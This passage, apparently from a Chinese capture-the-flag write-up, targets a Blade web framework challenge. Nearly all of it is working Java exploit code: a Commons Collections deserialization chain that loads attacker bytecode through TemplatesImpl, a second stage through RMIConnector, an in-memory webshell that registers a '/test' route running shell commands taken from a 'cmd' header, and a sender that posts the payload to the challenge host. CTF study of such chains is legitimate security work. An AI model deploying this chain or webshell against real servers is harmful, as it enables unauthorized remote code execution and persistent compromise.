        unsafe.putObject(o1, unsafe.objectFieldOffset(CodeSigner.class.getDeclaredField("signerCertPath")), o);

        EventListenerList eventListenerList = new EventListenerList();
        UndoManager undoManager = new UndoManager();

        //从UndoManager父类CompoundEdit的edits中取出Vector对象，并将恶意类通过add添加
        Vector vector = (Vector) getFieldValue(undoManager,"edits");
        vector.add(o1);

        unsafe.putObject(eventListenerList,unsafe.objectFieldOffset(eventListenerList.getClass().getDeclaredField("listenerList")),new Object[]{InternalError.class, undoManager});

        String poc = serialize(eventListenerList);
        unserialize(poc);
    }
    public static String get_payload() throws Exception {
        Object templates = getTemplates(Repository.lookupClass(EXP.class).getBytes());

        InvokerTransformer invokerTransformer = new InvokerTransformer("newTransformer", null, null);

        ArrayList<Object> list = new ArrayList<>();
        list.add(null);
        List transformedList = TransformedList.decorate(list,invokerTransformer);

        List lazylist = LazyList.decorate(transformedList,new ConstantFactory(templates));

        Field field = Unsafe.class.getDeclaredField("theUnsafe");
        field.setAccessible(true);
        Unsafe unsafe = (Unsafe) field.get((Object) null);
        X509CertPath o = (X509CertPath) unsafe.allocateInstance(X509CertPath.class);
        unsafe.putObject(o, unsafe.objectFieldOffset(X509CertPath.class.getDeclaredField("certs")), lazylist);
        Object o1 = unsafe.allocateInstance(CodeSigner.class);
        unsafe.putObject(o1, unsafe.objectFieldOffset(CodeSigner.class.getDeclaredField("signerCertPath")), o);

        EventListenerList eventListenerList = new EventListenerList();
        UndoManager undoManager = new UndoManager();

        //从UndoManager父类CompoundEdit的edits中取出Vector对象，并将恶意类通过add添加
        Vector vector = (Vector) getFieldValue(undoManager,"edits");
        vector.add(o1);

        unsafe.putObject(eventListenerList,unsafe.objectFieldOffset(eventListenerList.getClass().getDeclaredField("listenerList")),new Object[]{InternalError.class, undoManager});

        String poc = serialize(eventListenerList);
        System.out.println(poc);
        return poc;

    }
    public static Object getTemplates(byte[] byteCode) {
        try {
            Object templates = new TemplatesImpl();
            setFieldValue(templates, "_name", "n1ght");
            setFieldValue(templates, "_sdom", new ThreadLocal());
            setFieldValue(templates, "_tfactory", null);
            setFieldValue(templates, "_bytecodes", new byte[][]{byteCode});
            return templates;
        } catch (Exception var2) {
            System.out.println("Error: " + var2);
            return null;
        }
    }
    //定义序列化操作
    public static String serialize(Object object) throws Exception{
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(byteArrayOutputStream);
        oos.writeObject(object);
        oos.close();
        String poc = Base64.getEncoder().encodeToString(byteArrayOutputStream.toByteArray());
        return poc;
    }

    //定义反序列化操作,提供base64后的字节码，进行反序列化
    public static void unserialize(String poc) throws Exception{
        byte[] bytes = Base64.getDecoder().decode(poc);
        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(bytes);
        N1ghtObjectInputStream ois = new N1ghtObjectInputStream(byteArrayInputStream);
        ois.readObject();
    }
    public static void setFieldValue(Object object, String fieldName, Object value) throws Exception{
        Field field = object.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(object, value);
    }
    public static Object getFieldValue(final Object obj, final String fieldName) throws Exception{
        final Field f = getField (obj.getClass (), fieldName );
        return f.get (obj);
    }
    public static Field getField( final Class<?> clazz, final String fieldName ) throws Exception {
        try {
            Field field = clazz.getDeclaredField(fieldName);
            if (field != null)
                field.setAccessible(true);
            else if (clazz.getSuperclass() != null)
                field = getField(clazz.getSuperclass(), fieldName);

            return field;
        } catch (NoSuchFieldException e) {
            if (!clazz.getSuperclass().equals(Object.class)) {
                return getField(clazz.getSuperclass(), fieldName);
            }
            throw e;
        }
    }
}
```



但是题目是不出网的

# 3. 不出网打blade内存马

分析这里就不分析了

内存马

```java
package com.example;

import com.hellokaton.blade.annotation.Path;
import com.hellokaton.blade.mvc.WebContext;
import com.hellokaton.blade.mvc.http.*;
import com.hellokaton.blade.mvc.route.Route;
import com.hellokaton.blade.mvc.route.RouteMatcher;
import com.hellokaton.blade.mvc.route.mapping.StaticMapping;
import com.hellokaton.blade.server.HttpServerHandler;
import com.hellokaton.blade.server.RouteMethodHandler;
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import io.netty.channel.ChannelHandlerContext;
import io.netty.util.internal.InternalThreadLocalMap;
import sun.misc.Unsafe;

import java.lang.reflect.Array;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.util.Scanner;

@Path
public class Exp extends AbstractTranslet {
    public Exp() throws Exception{
        System.out.println("start");
        Class<?> name = Class.forName("sun.misc.Unsafe");
        Field theUnsafe = name.getDeclaredField("theUnsafe");
        theUnsafe.setAccessible(true);
        Unsafe unsafe = (Unsafe) theUnsafe.get(null);
        Thread thread = Thread.currentThread();
        ThreadLocal<Object> objectThreadLocal = new ThreadLocal<>();
        Method getMap = ThreadLocal.class.getDeclaredMethod("getMap", Thread.class);
        getMap.setAccessible(true);
        Object threadLocals = getMap.invoke(objectThreadLocal, thread);
        Class<?> threadLocalMap = Class.forName("java.lang.ThreadLocal$ThreadLocalMap");
        Field tablesFiled = threadLocalMap.getDeclaredField("table");
        tablesFiled.setAccessible(true);
        Object table = tablesFiled.get(threadLocals);
        Object o = null;
        for (int i = 0; i < Array.getLength(table); i++) {
            try {
                Object o1 = Array.get(table, i);
                System.out.println(o1.getClass().getName());
                if(o1.getClass().getName().equals("java.lang.ThreadLocal$ThreadLocalMap$Entry")){
                    o = Array.get(table, i);
                }
            }catch (Exception e) {
            }
        }
        System.out.println(o);
        Class<?> entry = Class.forName("java.lang.ThreadLocal$ThreadLocalMap$Entry");
        Field valueField = entry.getDeclaredField("value");
        valueField.setAccessible(true);
        InternalThreadLocalMap value = (InternalThreadLocalMap) valueField.get(o);
        WebContext context = null;
        for (int i = 0; i < value.size(); i++) {
            try {
                if (value.indexedVariable(i).getClass().getName().equals("com.hellokaton.blade.mvc.WebContext")) {
                    context = (WebContext) value.indexedVariable(i);
                    break;
                }
            }catch (Exception e) {

            }
        }
        ChannelHandlerContext channelHandlerContext = context.getChannelHandlerContext();
        HttpServerHandler handler = (HttpServerHandler) channelHandlerContext.handler();
        RouteMethodHandler routeHandler = (RouteMethodHandler) unsafe.getObject(handler, unsafe.objectFieldOffset(HttpServerHandler.class.getDeclaredField("routeHandler")));
        RouteMatcher routeMatcher = (RouteMatcher) unsafe.getObject(routeHandler, unsafe.objectFieldOffset(RouteMethodHandler.class.getDeclaredField("routeMatcher")));
        Path annotation = Exp.class.getAnnotation(Path.class);
        System.out.println("annotations: " + annotation);
        Route route = new Route(HttpMethod.ALL, "/test", Exp.class, Exp.class.getDeclaredMethod("exp"));
        route.setTarget(new Exp("aaa"));
        Method addRoute = routeMatcher.getClass().getDeclaredMethod("addRoute", Route.class);
        addRoute.setAccessible(true);
        addRoute.invoke(routeMatcher,route);
        System.out.println(routeHandler);
        StaticMapping staticMapping = routeMatcher.getStaticMapping();
        staticMapping.addRoute("/test",HttpMethod.ALL,route);


    }
    public Exp(String aaa){
        System.out.println("aaa");
    }
    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }

    public void exp() throws Exception{
        Class<?> name = Class.forName("sun.misc.Unsafe");
        Field theUnsafe = name.getDeclaredField("theUnsafe");
        theUnsafe.setAccessible(true);
        Unsafe unsafe = (Unsafe) theUnsafe.get(null);
        Thread thread = Thread.currentThread();
        ThreadLocal<Object> objectThreadLocal = new ThreadLocal<>();
        Method getMap = ThreadLocal.class.getDeclaredMethod("getMap", Thread.class);
        getMap.setAccessible(true);
        Object threadLocals = getMap.invoke(objectThreadLocal, thread);
        Class<?> threadLocalMap = Class.forName("java.lang.ThreadLocal$ThreadLocalMap");
        Field tablesFiled = threadLocalMap.getDeclaredField("table");
        tablesFiled.setAccessible(true);
        Object table = tablesFiled.get(threadLocals);
        Object o = null;
        for (int i = 0; i < Array.getLength(table); i++) {
            try {
                Object o1 = Array.get(table, i);
                if(o1.getClass().getName().equals("java.lang.ThreadLocal$ThreadLocalMap$Entry")){
                    o = Array.get(table, i);
                }
            }catch (Exception e) {
            }
        }
        System.out.println(o);
        Class<?> entry = Class.forName("java.lang.ThreadLocal$ThreadLocalMap$Entry");
        Field valueField = entry.getDeclaredField("value");
        valueField.setAccessible(true);
        InternalThreadLocalMap value = (InternalThreadLocalMap) valueField.get(o);
        WebContext context = null;
        for (int i = 0; i < value.size(); i++) {
            try {
                if (value.indexedVariable(i).getClass().getName().equals("com.hellokaton.blade.mvc.WebContext")) {
                    context = (WebContext) value.indexedVariable(i);
                    break;
                }
            }catch (Exception e) {

            }
        }
        HttpResponse response = (HttpResponse) context.getResponse();
        Request request = context.getRequest();
        String cmd = request.header("cmd");
        response.body(new Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A").next());
    }


}
```

## 最终POC

由于这里是直接反序列化字节数组的，所以需要写一个发送请求

```java
package com.example;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import okhttp3.*;
import org.apache.commons.collections.functors.*;
import org.apache.commons.collections.list.LazyList;
import org.apache.commons.collections.list.TransformedList;
import sun.misc.Unsafe;
import sun.security.provider.certpath.X509CertPath;

import javax.management.remote.JMXServiceURL;
import javax.management.remote.rmi.RMIConnector;
import javax.swing.event.EventListenerList;
import javax.swing.undo.UndoManager;
import java.io.*;
import java.lang.reflect.Field;
import java.security.CodeSigner;
import java.util.*;

public class POC {
    public static void main(String[] args) throws Exception {
        JMXServiceURL jmxServiceURL = new JMXServiceURL("service:jmx:rmi://");
        setFieldValue(jmxServiceURL, "urlPath", "/stub/"+get_payload());
        RMIConnector rmiConnector = new RMIConnector(jmxServiceURL, null);

        InvokerTransformer invokerTransformer = new InvokerTransformer("connect", null, null);

        ArrayList<Object> list = new ArrayList<>();
        list.add(null);
        List transformedList = TransformedList.decorate(list,invokerTransformer);

        List lazylist = LazyList.decorate(transformedList,new ConstantFactory(rmiConnector));

        Field field = Unsafe.class.getDeclaredField("theUnsafe");
        field.setAccessible(true);
        Unsafe unsafe = (Unsafe) field.get((Object) null);
        X509CertPath o = (X509CertPath) unsafe.allocateInstance(X509CertPath.class);
        unsafe.putObject(o, unsafe.objectFieldOffset(X509CertPath.class.getDeclaredField("certs")), lazylist);
        Object o1 = unsafe.allocateInstance(CodeSigner.class);
        unsafe.putObject(o1, unsafe.objectFieldOffset(CodeSigner.class.getDeclaredField("signerCertPath")), o);

        EventListenerList eventListenerList = new EventListenerList();
        UndoManager undoManager = new UndoManager();

        //从UndoManager父类CompoundEdit的edits中取出Vector对象，并将恶意类通过add添加
        Vector vector = (Vector) getFieldValue(undoManager,"edits");
        vector.add(o1);

        unsafe.putObject(eventListenerList,unsafe.objectFieldOffset(eventListenerList.getClass().getDeclaredField("listenerList")),new Object[]{InternalError.class, undoManager});

        byte[] bytes = serialize(eventListenerList);

        //发送请求
        OkHttpClient client = new OkHttpClient();
        PageAttributes.MediaType mediaType = MediaType.parse("application/octet-stream");
        RequestBody body = RequestBody.create(mediaType, bytes);
        Request request = new Request.Builder()
                .url("http://challenge.imxbt.cn:32022/challenge")
                .post(body)
                .build();
        Response response = client.newCall(request).execute();
        System.out.println("[+] Response: " + response.body().string());
    }
    public static String get_payload() throws Exception {
        Object templates = getTemplates(Repository.lookupClass(Exp.class).getBytes());

        InvokerTransformer invokerTransformer = new InvokerTransformer("newTransformer", null, null);

        ArrayList<Object> list = new ArrayList<>();
        list.add(null);
        List transformedList = TransformedList.decorate(list,invokerTransformer);

        List lazylist = LazyList.decorate(transformedList,new ConstantFactory(templates));

        Field field = Unsafe.class.getDeclaredField("theUnsafe");
        field.setAccessible(true);
        Unsafe unsafe = (Unsafe) field.get((Object) null);
        X509CertPath o = (X509CertPath) unsafe.allocateInstance(X509CertPath.class);
        unsafe.putObject(o, unsafe.objectFieldOffset(X509CertPath.class.getDeclaredField("certs")), lazylist);
        Object o1 = unsafe.allocateInstance(CodeSigner.class);
        unsafe.putObject(o1, unsafe.objectFieldOffset(CodeSigner.class.getDeclaredField("signerCertPath")), o);

        EventListenerList eventListenerList = new EventListenerList();
        UndoManager undoManager = new UndoManager();

        //从UndoManager父类CompoundEdit的edits中取出Vector对象，并将恶意类通过add添加
        Vector vector = (Vector) getFieldValue(undoManager,"edits");
        vector.add(o1);

        unsafe.putObject(eventListenerList,unsafe.objectFieldOffset(eventListenerList.getClass().getDeclaredField("listenerList")),new Object[]{InternalError.class, undoManager});

        String poc = serialize_base64(eventListenerList);
        return poc;

    }
    public static Object getTemplates(byte[] byteCode) {
        try {
            Object templates = new TemplatesImpl();
            setFieldValue(templates, "_name", "n1ght");
            setFieldValue(templates, "_sdom", new ThreadLocal());
            setFieldValue(templates, "_tfactory", null);
            setFieldValue(templates, "_bytecodes", new byte[][]{byteCode});
            return templates;
        } catch (Exception var2) {
            System.out.println("Error: " + var2);
            return null;
        }
    }
    //定义序列化操作
    public static String serialize_base64(Object object) throws Exception{
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(byteArrayOutputStream);
        oos.writeObject(object);
        oos.close();
        String poc = Base64.getEncoder().encodeToString(byteArrayOutputStream.toByteArray());
        return poc;
    }
    public static byte[] serialize(Object object) throws Exception{
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(byteArrayOutputStream);
        oos.writeObject(object);
        oos.close();
        return byteArrayOutputStream.toByteArray();
    }
    public static void setFieldValue(Object object, String fieldName, Object value) throws Exception{
        Field field = object.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(object, value);
    }
    public static Object getFieldValue(final Object obj, final String fieldName) throws Exception{
        final Field f = getField (obj.getClass (), fieldName );
        return f.get (obj);
    }
    public static Field getField( final Class<?> clazz, final String fieldName ) throws Exception {
        try {
            Field field = clazz.getDeclaredField(fieldName);
            if (field != null)
                field.setAccessible(true);
            else if (clazz.getSuperclass() != null)
                field = getField(clazz.getSuperclass(), fieldName);

            return field;
        } catch (NoSuchFieldException e) {
            if (!clazz.getSuperclass().equals(Object.class)) {
                return getField(clazz.getSuperclass(), fieldName);
            }
            throw e;
        }
    }
}

```

然后访问内存马就行了
